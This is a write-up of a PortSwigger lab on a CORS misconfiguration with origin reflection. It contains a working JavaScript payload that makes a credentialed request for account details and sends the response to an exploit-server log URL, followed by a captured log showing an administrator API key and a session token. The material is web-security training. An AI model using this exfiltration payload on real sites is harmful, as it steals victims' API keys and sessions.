

# [Lab: CORS vulnerability with basic origin reflection](https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack)

## Lab

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

## Analysis

header of the request's response to `/accountDetails` contains `Access-Control-Allow-Credentials`:

- request from exploit-server, the `Access-Control-Allow-Origin` is reflected:



## Solutions

craft a response at exploit-server:

- body:

  ```js
  <script>
  var req = new XMLHttpRequest();
  req.onload = reqListener;
  req.open('get','https://id.web-security-academy.net/accountDetails',true);
  req.withCredentials = true;
  req.send();

  function reqListener() {
    location='https://exploit-id.exploit-server.net/log?key='+this.responseText;
  };
  </script>
  ```

deliver exploit to victim => log:

```http
/log?key={  "username": "administrator",  "email": "",  "apikey": "DXVPpW5NHW51Kyu9ArW0eCgce3HUct9g",  "sessions": [    "KZNTrPrjnSWhV0E9nIdODHExeFaSh1XF"  ]}
```
